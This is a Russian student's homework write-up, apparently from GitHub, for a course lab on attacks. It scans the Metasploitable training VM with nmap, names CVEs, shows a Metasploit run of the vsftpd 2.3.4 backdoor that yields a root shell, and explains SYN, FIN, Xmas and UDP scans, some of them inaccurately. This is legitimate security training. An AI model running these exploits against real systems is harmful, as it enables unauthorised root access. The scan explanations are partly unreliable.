




# Домашнее задание к занятию «Атаки»

В качестве результата пришлите ответы на вопросы в личном кабинете студента на сайте [netology.ru](https://netology.ru/).

## Metasploitable

Скачайте и установите на виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/

Это типовая ОС для экспериментов в области информационно безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту VM, используя nmap.

Попробуйте найти уязвимости, которым подвержена данная виртуальная машина.

Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

1. Какие сетевые службы в ней разрешены?

   ***

   **Ответ:** 

   ```bash
   21/tcp   open  ftp          vsftpd 2.3.4
   22/tcp   open  ssh          OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
   23/tcp   open  telnet?
   25/tcp   open  smtp?
   53/tcp   open  domain       ISC BIND 9.4.2
   80/tcp   open  http         Apache httpd 2.2.8 ((Ubuntu) DAV/2)
   111/tcp  open  rpcbind      2 (RPC #100000)
   139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   445/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   512/tcp  open  exec?
   513/tcp  open  login?
   514/tcp  open  shell?
   1099/tcp open  java-rmi     GNU Classpath grmiregistry
   1524/tcp open  bindshell    Metasploitable root shell
   2049/tcp open  nfs          2-4 (RPC #100003)
   2121/tcp open  ccproxy-ftp?
   3306/tcp open  mysql?
   5432/tcp open  postgresql   PostgreSQL DB 8.3.0 - 8.3.7
   5900/tcp open  vnc          VNC (protocol 3.3)
   6000/tcp open  X11          (access denied)
   6667/tcp open  irc          UnrealIRCd
   8009/tcp open  ajp13        Apache Jserv (Protocol v1.3)
   8180/tcp open  http         Apache Tomcat/Coyote JSP engine 1.1
   
   ```

   

   ***

   

2. Какие уязвимости были вами обнаружены (список со ссылками - достаточно 3х уязвимостей)

***

**Ответ:**

1) Для ftp vsftpd 2.3.4 уязвимость CVE 2011-2523. Ниже провел эксплуатацию уязвимости через metasploit и зашел на shell жертвы.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.0.2:21 - USER: 331 Please specify the password.
[+] 10.10.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.10.0.2:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.10.0.3:44747 -> 10.10.0.2:6200) at 2022-11-03 03:45:33 -0400

ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz

```


2. Для PostgreeSQL есть уязвимость CVE 2009-0922
3. Для ISC BIND 9 есть уязвимость CVE 2009-0696

***


Пришлите ответы на вопросы в ЛК студента.

## SYN, FIN, Xmas, UDP

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP, запишите сеансы сканирования в Wireshark.

Ответьте в свободной форме на следующие вопросы:

1. Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
2. Как отвечает сервер?

***

**Ответы:**

1. **SYN-сканирование.** Здесь идет сканирование через TCP соединение. Наш сервер отправляет запрос на установку соединения. Вся суть данного сканирования строится на инициализации TCP соединения.



***

Если сервер возвращает ключ SYN, значит порт открыт. Если RST, значит закрыт.


2. **FIN-сканирование.** Здесь идет речь о завершении соединения и отправка флага FIN. Если фаервол жертвы настроен на отлов поддельных SYN запросов и SYN сканирование не работает.




3. **Xmas-сканирование.** Использует для проверки порта ключи FIN, PSH, URG. Суть почти та же, что и при FIN сканировании. Мы ищем флаги, которые не заблокированы фаерволом. Если возвращается RST, значит порты закрыт. Во всех остальных случаях порт закрытым не является. 

- флаг PSH означает, что данные не нужно записывать в буфер при передаче.
- URG означает, что данные являются срочными и их нужно немедленно передать приложению.




4. **UDP - сканирование.** Здесь мы не используем систему рукопожатий. 




Пришлите ответы на вопросы в ЛК студента.

## Footer

© 2022 GitHub, Inc.

Footer navigation[Terms](https://docs.github.com/en/github/site-policy/github-terms-of-service)[Privacy](https://docs.github.com/en/github/site-policy/github-privacy-statement)[Security](https://github.com/security)[Status](https://www.githubstatus.com/)[Docs](https://docs.github.com/)[Contact GitHub](https://support.github.com/?tags=dotcom-footer)[Pricing](https://github.com/pricing)